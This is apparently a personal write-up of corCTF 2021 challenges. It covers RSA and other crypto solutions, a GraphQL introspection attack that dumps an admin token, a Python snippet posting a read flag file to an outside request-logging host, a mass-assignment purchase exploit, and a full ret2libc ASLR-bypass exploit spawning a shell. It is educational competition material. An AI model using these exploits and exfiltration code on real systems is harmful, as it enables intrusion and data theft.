



# My solutions for the Cor CTF 2021

Website link to competition homepage: <https://2021.cor.team/>. The points value are based on the final values at the end of the competition (the problems value depreciates with more solves)

Link to crypto official writeups: <https://hackmd.io/@LHyyoaqQRTGd0Pw3CjNUhw/ByHiLa1-t>

## Problems that I could solve

There were 3 problems out of 35 that I was able to solve during the entire competition (a depressing number if you ask me), all of them being RSA. I'll also be looking over people's writeups of competition problems to see what I could learn from them.

## Fibinary

Category: Crypto
Points: 205

We were given a file which encrypts the flag character-by-character using the following function:

~~~py
def c2f(c):
	n = ord(c)
	b = ''
	for i in range(10, -1, -1):
		if n >= fib[i]:
			n -= fib[i]
			b += '1'
		else:
			b += '0'
	return b
~~~

We can see that c2f gets the ASCII value of the character, and then proceeds to convert it into fibonacci-binary (a term I just made up) using the 1st through 10th fibonacci numbers. To decrypt, we can simply read in the fib-binary output and add up the value of each digits to get back the original ASCII value.

~~~py
flag = ""
for entry in enc:
	val = 0
	ones = [i for i, ltr in enumerate(entry) if ltr == '1']
	print(ones)
	for index in ones:
		val += fib[10-index]
	print(val)
	flag += chr(val)

print(flag)
~~~

Thus, this text:

~~~text
10000100100 10010000010 10010001010 10000100100 10010010010 10001000000 10100000000 10000100010 00101010000 10010010000 00101001010 10000101000 10000010010 00101010000 10010000000 10000101000 10000010010 10001000000 00101000100 10000100010 10010000100 00010101010 00101000100 00101000100 00101001010 10000101000 10100000100 00000100100
~~~

yields `corctf{b4s3d_4nd_f1bp!113d}`

Flag: corctf{b4s3d_4nd_f1bp!113d}

## 4096

Category: Crypto
Points: 360

The challenge had encrypted the flag in RSA using 128 randomly generated 32-bit primes multiplied together to produce `n`. Even though 4096-bit RSA key sounds secure in theory, since there is only a limited number of 32-bit primes (203280220 unique primes, in fact), we can brute-force the factors by iterating over all 32-bit primes.

My initial naive approach involved repatedly calling `getPrimes()` function from Crypto.Util.number as it was used in the encryption process to randomly generate 32-bit primes and check if they divides n. However, I quickly found this approach to be ineffective as it retrieved a new factor every ~10 minutes. 

Guessing random primes:

~~~py
def test_prime():
	while True:
		primes = [getPrime(32) for _ in range(256)]
		for p in primes:
			if n % p == 0:
				print("New factor:",p)
~~~

I tried even to use the `Threading` module to take advantage of multiple cores, though this too was too slow of a method.
~~~py
exitFlag = 0

class myThread (threading.Thread):
   def __init__(self, threadID, name, counter):
      threading.Thread.__init__(self)
      self.threadID = threadID
      self.name = name
      self.counter = counter
   def run(self):
      print ("Starting " + self.name + '\n')
      test_prime()

def test_prime():
	while True:
		primes = [getPrime(32) for _ in range(256)]
		for p in primes:
			if n % p == 0:
				print("New factor:",p)

# Create new threads
thread1 = myThread(1, "Thread-1", 1)
thread2 = myThread(2, "Thread-2", 2)

# Start new Threads
thread1.start()
thread2.start()
thread1.join()
thread2.join()
print ("Exiting Main Thread")
~~~

After a bit of searching I found that there was a pre-computed databse of all 32-bit primes [here](http://www.umopit.ru/CompLab/primes32eng.htm). The database is given as a binary file where each 4 bytes represent a prime number stored in little endian format. With that, I was able to create a new script that iterates over all the 32-bit primes and retrieve the 128 factors of `n`. Note: To use the [source.py](Crypto/4096/task/source.py) script you need to download the database again since Github will yell at me if I push a ~300 MB binary file.

Since I already had a script from another CTF (C2C CTF) that could solve multi-primes RSA (e.g., when `n` has more than 2 factors), I was able to bring it over and use it to decrypt the flag (found at [rsa_solver.py](Crypto/4096/task/rsa_solver.py)).

Flag: corctf{to0_m4ny_pr1m3s55_63aeea37a6b3b22f}

## Dividing Secrets

Category: Crypto
Points: 434

Contrary to normal RSA where you encrypt the message by doing `m^e mod n`, here they decided to do `e^m mod n`. There's also no correlation between `e` and `n` except that `e < n` and that `n` is a prime number. The web service they give us allow us to provide a number which will be used to output `e^(m//input) mod n`.

I'm not sure if there was a more mathematically-informed way of solving this problem, but the way that I did it was using binary search to get the value of the `m` or the flag. We know that if `input > m` then `m//input = 0` and the output will be 1. Otherwise the result will be `e` (if we are close) or some other value. Also, since the flag remains static across each call to the server, we can perform this operation many times until we arrive at value of `m`.

My exploit script looks like this:

~~~py
#Chose random p for hi
i = 0
hi = 12123011818658592223829585444463227444387063694309686111263422100048399811440660891168952304033795717311157503302903808212679523140543340266855141269464379
low = 1

while hi - low != 1:
    print("Trial:",i)
    print("High:",hi)
    print("Low:",low)
    avg = (hi + low) // 2
    r.sendline(str(avg).encode('utf-8'))
    res = r.recvline().decode('utf-8')
    if i == 0:
        res = int(res)
    elif "no more tries" in res:
        #Close current r and make new connection
        r.close()
        r = remote('crypto.be.ax',6000)
        res = r.recvuntil(b">").decode('utf-8')
        i = 0
        continue
    else:
        res = int(res[res.index("> ")+2:])
    print("Result:",res)
    print(type(res))
    if res == 1: #avg >= flag
        hi = avg
    else: #avg < flag
        low = avg
    i+=1

r.close()
~~~

Once I arrived at a hi and low bound that are within 2 of each other I could simply print out their long_to_bytes equivalence and get the flag:
Full script is at [exp.py](Crypto/Dividing_Secrets/exp.py)

Flag: corctf{qu4drat1c_r3s1due_0r_n0t_1s_7h3_qu3st1on8852042051e57492}

## Problems that I couldn't solve

There were a few problems that I attempted but was not able to successfully solve. After reading people's writeups, I'll try to detail their solution below (including how I had tried to go about it).

## Devme

Category: Web
Points: 323

We were given a website that had callouts to TechLead about his miracle "programming course". At the bottom there is a field for us to submit an e-mail address to sign up for the course mailing list. Being clueless about Web problems I didn't know where to go from here. The field requires for input to be in the form of "abc@efg" and trying to perform an SQL injection will not work b/c it doesn't accept spaces.

`MikeCAT#7923` on Discord mentioned that we can use the Firefox Developer Tools to inspect POST requests which are sent upon successful submission of the input field. For us entering `me@you.com` gave us the following query and response:

- Query

~~~json
{
  "query": "mutation createUser($email: String!) {\n createUser(email: $email) {\n  username\n }\n}\n",
  "variables": {
    "email": "me@you.com"
  }
}
~~~

- Response

~~~json
{
  "data": {
    "createUser": {
      "username": "a903de1a8e5ecb507e1596d8c1d49f7197f2f7811c0237c1ffd06989b36753d9"
    }
  }
}
~~~

Based on the syntax we can figure out that it is using GraphQL to query the server for information. For more information on the syntax of GraphQL and also how to query the server to see which query Types it accepts, see [ref1](https://graphql.org/learn/schema/) and [ref2](https://graphql.org/learn/introspection/).

For example,`MikeCAT#7923` provides the following JSON query which we can send to find the fields and arguments which are available to us:

* Query

~~~json
{"query": "query{__type(name: \"Query\"){name fields{name args{name type{name kind}} type{name kind ofType{name kind}}}}}"}
~~~

* Response

~~~json
{
  "data": {
    "__type": {
      "name": "Query",
      "fields": [
        {
          "name": "users",
          "args": [],
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": null,
              "kind": "LIST"
            }
          }
        },
        {
          "name": "flag",
          "args": [
            {
              "name": "token",
              "type": {
                "name": null,
                "kind": "NON_NULL"
              }
            }
          ],
          "type": {
            "name": null,
            "kind": "NON_NULL",
            "ofType": {
              "name": "String",
              "kind": "SCALAR"
            }
          }
        }
      ]
    }
  }
}
~~~

From this response we can see that we can query for other `users` or `flag` objects. In particular, the `flag` object has a `token` parameter that represents it.
Somehow, `MikeCAT#7923` was also able to figure out that `users` has the parameters `username` and `token`. We can ask for this list by sending

* Query

~~~json
{"query":"query {users{username, token}}"}
~~~

* Response
* 
~~~json
{"data":{"users":[{"username":"admin","token":"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b"},{"username":"b82d9af8a6226c072bcd811e7a009ffb36b2ad88be67ac396d170fe8e2f1de7c","token":"5568f87dc1ca15c578e6b825ffca7f685ac433c1826b075b499f68ea309e79a6"},{"username":"8dab139e71af6aebdec375ac12a1055b4d515cb35751208d3e615194ee521f97","token":"d34609c0c342f7dc6f3d8b18356dfeda82a233a9846c7d2dbab8fb803719caf9"},{"username":"ccda5bd3342c7231f9e083a6291a38bad10647168a04a3784350acda42a99fca","token":"80dae68b95977c96be675ed723815a65d69de38dfefb0710e655584014849abd"},
[...]
}}
~~~

which gives us the token associated with `admin`. We can then query for the flag object associated with the admin by sending:

* Query

~~~json
{"query":"query {flag(token:\"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b\")}"}
~~~

* Response

~~~json
{
  "data": {
    "flag": "corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}"
  }
}
~~~

which gives us the flag.

Flag: corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}

## Yeetcode

Category: Misc
Points: 402

We were given a website which asks us to write a Python function `f(a,b)` that returns the sum of a+b. Seems simple enough. The problem also tells us that the flag is located at ./flag.txt. When we submit the code, we will get back either `Oops! Your code has an error in it. Please try again.` if there is an error or `You passed x/10 test cases. Congrats!`

Knowing the location of the flag, we can read in the code the file using:

~~~py
with open("./flag.txt","r") as f:
  flag = f.read()
~~~

However, we are not able to directly print out this flag back to us since the server doesn't show us the output of the program. Since the function they want us to write is very simple, it's also not possible to encode the character values by the number of test cases we get correct. Or is there?

Before going into the answer, I wanted to entertain an idea that I came up for the problem. I found a service called [Post Test Service v2](https://ptsv2.com/) which keeps track of all the GET or POST requests that you send to a specific "toilet" dump instance on the server. For example, I created the following dump: <https://ptsv2.com/t/4ax09-1629609752> (Note: This URL may expire in the future)

From [this](https://stackoverflow.com/questions/11322430/how-to-send-post-request) StackOverflow question I found that you can send POSTs requests to a web server that only uses the standard library (I saw that the challenge doesn't have pwntools). The code would look like this:

~~~py
from urllib.parse import urlencode
from urllib.request import Request, urlopen

url = 'https://ptsv2.com/t/4ax09-1629609752' # Set destination URL here
post_fields = {'flag': 'corCTF{enter_flag_here}'}     # Set POST fields here

request = Request(url, urlencode(post_fields).encode())
json = urlopen(request).read().decode()
print(json)
~~~

However, when I tried to run this code in the web challenge, it timed out on me in the `urlopen()` call. From this, I can assume that the docker container running the challenge must have disabled / prevented connections to web servers.

The correct way of solving this problem is to send formatted blocks of code with a guess for what the next flag character is. If our guess is wrong, we deliberately fails the test cases. Otherwise, we return the correct solution.

The exploit code would look something like this:

~~~py
#This was taken from careless_finch#0001 on Discord

import requests
from string import digits, ascii_lowercase

flag='corctf{'

while flag[-1]!='}':
    for i in digits+ascii_lowercase+'_}': #dictionary
        data = f'def f(a,b):\n q=open("flag.txt").read().strip()\n if q[:{len(flag)+1}]=="{flag+i}":\n  print(a+b)'
        response = requests.post('https://yeetcode.be.ax/yeetyeet', data=data)
        print(flag+i,end='\r')
        if response.json()['f']==9:
            flag+=i
            break
print("flag:",flag)
~~~

An interesting part of this script is that it uses `print(flag+i,end='\r')` to print out the current guess of the flag and then append a carriage return character at the end rather than a `\n` to go back to the beginning of the line. This usage of print allows us to iteratively shows our current guess without wasting space in the terminal. Neat!

Flag: corctf{1m4g1n3_cp_g0lf_6a318dfe}

## supercomputer

Category: Crypto
Points: 457

This problem turned out to be mainly math, which explains why I wasn't able to solve it. *sad face* The setup is this:

- We generate three 2048-bit prime numbers: `p`,`q`, and `r`
- Define `n = p^q * r`
- Define two integers, `a1` and `a2` such that `a1 + a2 = n` and `0 < a1,a2 < n`
- Calculate `t = a1^n + a2^n` (humongous number!)
- Find a value `x` such that `p^x = t`
- XOR the flag with x (convert from long int to bytes) and return the hex representation

In the problem we were given the values of `p`,`q`, `r`, and the hex result.

Since XOR is reversible, we can just XOR the unhexlified result with `x`, but the issue comes with calculating it. I sat on this problem for a few hours, thinking about ways that I could algebraic manipulate the expression to make it easier for find `x`. 

The solution, as it turns out, is more complex than just algebraic manipulation. In competitive math, there is something called the ["Lifting the Exponent"](https://brilliant.org/wiki/lifting-the-exponent/) lemma (LTE) for calculating the largest power of a prime which divides a difference or a sum of nth powers. While I won't go into the math (mostly because I don't want to :)), there is a research [paper](https://www.taharut.org/imo/I5775/LTE.pdf) on this topic which provides a convenient theorem derived from LTE for us. 

Note: We define `v_p(x)` to be the greatest power in which a prime p divides x.

From this, we can find `x` by breaking it down to the following:

Thus we find that simply `x = 2q`

Knowing this value, we can easily reverse the encryption by doing:

~~~py
enc = b'6255a505b969be8175a5c578fd6e856ecd85faa1a22fdf38d2d11851211676fd3047ed12c4027e66ed2173495877180e3d49a387b74701fbbbdce00a2248c7812b157626c95e7cf5727ee90cc9a6a98d84ee50f106b11245d65b87a27bbd7ab94b0d82eeb6e49e81249ae880c150ff87d8da701e9d317932fa2b27b64eb894a112d942d7d269478a6c120be885f3fbd065c38e70498c2f294b47bb08da09fb63c05070248079fe4311c9821dd8d3a08b15f13cdb0b7a8d406790c4796e0218851b496a11bf1ad7575be6d9999d5f1c73080d724c66a116f865ffcd3048be5d59dae55a4a063629d30429765733521702ec36d3f111b015934d15d620ad0e35ee56'
byte_enc = binascii.unhexlify(enc)

print(xor(byte_enc,long_to_bytes(2*q)))
~~~

giving us the result:

`b'corctf{1_b3t_y0u_d1dnt_4ctu411y_d0_th3_m4th_d1d_y0u?}\ncorctf{1_b3t_y0u_d1dnt_4ctu411y_d0_th3_m4th_d1d_y0u?}\ncorctf{1_b3t_y0u_d1dnt_4ctu411y_d0_th3_m4th_d1d_y0u?}\ncorctf{1_b3t_y0u_d1dnt_4ctu411y_d0_th3_m4th_d1d_y0u?}\ncorctf{1_b3t_y0u_d1dnt_4ctu411y_d0_th3_m4'`

Flag: corctf{1_b3t_y0u_d1dnt_4ctu411y_d0_th3_m4th_d1d_y0u?}

## buyme

Category: Web
Points: 441

We are given a flag-buying store with a register/login system and our objective is to acquire the `corCTF` flag which costs 1e+300 dollars and we are given starting amount of $100. I've completely missed that we were given the source code for the problem during the competition (just ignore me pls). If we take a look at [api.js](Web/buyme/chall/routes/api.js) we can see the /buy API endpoint:

~~~js
router.post("/buy", requiresLogin, async (req, res) => {
    if(!req.body.flag) {
        return res.redirect("/flags?error=" + encodeURIComponent("Missing flag to buy"));
    }

    try {
        db.buyFlag({ user: req.user, ...req.body });
    }
    catch(err) {
        return res.redirect("/flags?error=" + encodeURIComponent(err.message));
    }

    res.redirect("/?message=" + encodeURIComponent("Flag bought successfully"));
});
~~~

The vulnerability here is actually the destructuring ("...") of the req.body. If we follow the call to buyFlag in [db.js](Web/buyme/chall/db.js) we can see the it performs a check for if `user.money` is greater or equal to the flag price for the user to buy it. The way destructuring is that if req.body happens to be an object it will unpack the values inside that object. Thus, we can override the `user` object provided by the browser with our own user object with arbitary amounts of money.

~~~js
const buyFlag = ({ flag, user }) => {
    if(!flags.has(flag)) {
        throw new Error("Unknown flag");
    }
    if(user.money < flags.get(flag).price) {
        throw new Error("Not enough money");
    }

    user.money -= flags.get(flag).price;
    user.flags.push(flag);
    users.set(user.user, user);
};
~~~

Since the /buy API endpoint requires for the user to be logged in, we can write the exploit code in Javascript using the `fetch` function to buy the corCTF flag with our custom user object and enter it in the Developer Console to run it directly from the browser.

The exploit would look like this:

~~~js
let username = "gray2"; //change depends on user currently logged in

let data = {
    flag: "corCTF",
    user: {
     user: username,
     flags: [],
     money: 2e+300,
    }
};

fetch("https://buyme.be.ax/api/buy", {
  method: "POST", 
  body: JSON.stringify(data),
  headers: {
    "Content-Type": "application/json"
  }
}).then(res => {
  console.log("Request complete! response:", res);
});
~~~

We had modeled the structure of the `user` object based on what the browser creates at the /register API endpoint:

~~~js
db.users.set(user, {
    user,
    flags: [],
    money: 100,
    pass: await bcrypt.hash(pass, 12)
});
~~~

When we refreshed the page we are greeted with the content of the flag.

Flag: corctf{h0w_did_u_steal_my_flags_you_flag_h0arder??!!}

## Chainblock

Category: Pwn
Points: 394

This problem was a nice introduction for me to working with binaries that has ASLR (Address space layout randomization) enabled. Initially, both me and Michael (who were doing corCTF with me) had thought that this was a simple ret2libc problem without ASLR.

The main vulnerability of the program is in the use of `gets()` in the `verify` function without specifying a character limit. 

~~~c
char* name = "Techlead";
int balance = 100000000;

void verify() {
	char buf[255];
	printf("Please enter your name: ");
	gets(buf);

	if (strcmp(buf, name) != 0) {
		printf("KYC failed, wrong identity!\n");
		return;
	}

	printf("Hi %s!\n", name);
	printf("Your balance is %d chainblocks!\n", balance);
}
~~~

Using gdb, we were able to figure out that it would take a padding of 264 characters from the start of the `buf` array to just before the return pointer. Initially, Michael and I had tried to call `system('/bin/sh')` using a `pop rdi; ret` gadget and returning to the system function in libc, but this would only work on the local binary when ASLR is disabled. 

~~~py
pop_rdi = 0x0000000000401493 # pop rdi; ret
bin_sh = next(libc.search(b"/bin/sh"))
ret_gadget = 0x000000000040101a # ret
system_addr = libc.symbols["system"]
print("System addr:",hex(system_addr))
print("Bin_sh addr:",hex(bin_sh))

rop_chain = [
    pop_rdi, bin_sh, ret_gadget, system_addr
]
~~~

Note that I had to include another `ret` gadget after the address for the string "/bin/sh", because while debugging with gdb I found that my program keeps crashing at `movaps xmmword ptr [rsp + 0x40], xmm0` instruction after entering `system`. From this [ref](https://stackoverflow.com/questions/60729616/segfault-in-ret2libc-attack-but-not-hardcoded-system-call), I saw that it has something to do with the stack alignment expecting things to be aligned in 16-byte blocks, and since our `pop rdi` operation had pushed the stack 8 bytes forward it would result a SEGFAULT error when the program performed the stack alignment check. Performing another `ret` then helped get our stack alignment back in order.

To get around ASLR, the main strategy is to expose some address information that we can use to calculate where our target functions are in relation to that. In our case, I found this helpful [tutorial](https://codingvision.net/bypassing-aslr-dep-getting-shells-with-pwntools) which tells us to:

1. Set the return pointer to the main function. ASLR only randomizes the heap stack and the offsets where are mapped the libraries (such as libc) when the binary is initially launched into execution. Thus, us calling main once again will still keep the address map as-is.
2. Use a `pop rdi; ret` gadget to execute `puts(puts@GOT)` which will output the address of `puts@libc`. The outside `puts` uses the address to puts in the PLT table whereas the inside is the addresss entry for puts in the GOT table. This is because (I believe), puts@plt is the callable address for puts where puts@GOT is actually an offset entry which helps us resolve the address of puts@libc.
3. Retrieve the outputted address and subtract the offset of `puts@libc` to get the actual libc starting address
4. From there, perform the ret2libc attack as before.

The tutorial also provided some objdump commands (as an alternative to gdb) that I've included below to the find address of some functions:

~~~text
$ objdump -R chainblock

chainblock:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000403ff0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
0000000000403ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000404060 R_X86_64_COPY     stdout@@GLIBC_2.2.5
0000000000404018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5

$ objdump -d -M intel  chainblock | grep "puts@plt"
0000000000401080 <puts@plt>:
  40120e:	e8 6d fe ff ff       	call   401080 <puts@plt>

gef➤  disas main
Dump of assembler code for function main:
=> 0x000000000040124b <+0>:	endbr64 

*] Switching to interactive mode
 Hi Techlead!
Your balance is 100000000 chainblocks!
\xd09A\xae\x80\x7f <-- this is Python's prettified printing of the output

$ objdump -d -M
 intel libc.so.6 | grep "_IO_puts"
   7eaa1:	e8 0a 21 00 00       	call   80bb0 <_IO_puts@@GLIBC_2.2.5+0x1e0>
~~~

Putting this all together, we get the following exploit script, also found at [aslr_lead](Pwn/Chainblock/aslr_leak.py):

~~~py
from pwn import *
import os

run_locally = False
os.chdir("./cor_ctf/Pwn/Chainblock")

elf = ELF("./chainblock")

if run_locally:
    p = elf.process()
else:
    host = "pwn.be.ax"
    port = 5000
    p = remote(host,port)

print(p.recvuntil("name:").decode('utf-8'))

libc = ELF("libc.so.6")

pop_rdi_ret = 0x0000000000401493
puts_got_addr = 0x0000000000404018
puts_plt_addr = 0x401080
main_addr = 0x000000000040124b

rop_chain = [
    pop_rdi_ret, puts_got_addr, puts_plt_addr, main_addr
]

rop_chain = b''.join([ p64(entry) for entry in rop_chain])

payload = b'Techlead' + b'\x00' + b'A'*(16*16-1) + rop_chain
#payload = b'A'*264 + rop_chain

p.sendline(payload)
print(p.recvline().decode('utf-8'))
print(p.recvline().decode('utf-8'))

aslr_puts_addr = u64((p.recvline()[:-1] + b'\x00\x00')[:8])
print("ASLR puts addres:",hex(aslr_puts_addr))
print(p.recvuntil('name:').decode())

#Leaked puts@libc address = \xb0\xa7\x7f
libc.address = aslr_puts_addr - libc.symbols['puts']

pop_rdi = 0x0000000000401493 # pop rdi; ret
bin_sh = next(libc.search(b"/bin/sh"))
ret_gadget = 0x000000000040101a # ret
system_addr = libc.symbols["system"]
print("System addr:",hex(system_addr))
print("Bin_sh addr:",hex(bin_sh))

rop_chain = [
    pop_rdi, bin_sh, ret_gadget, system_addr
]

rop_chain = b''.join([ p64(entry) for entry in rop_chain])
print(rop_chain)
print(len( b'Techlead' + b'\x00' + b'A'*(16*16-1)))

payload = b'Techlead' + b'\x00' + b'A'*(16*16-1) + rop_chain

p.sendline(payload)
p.interactive()
p.close()
~~~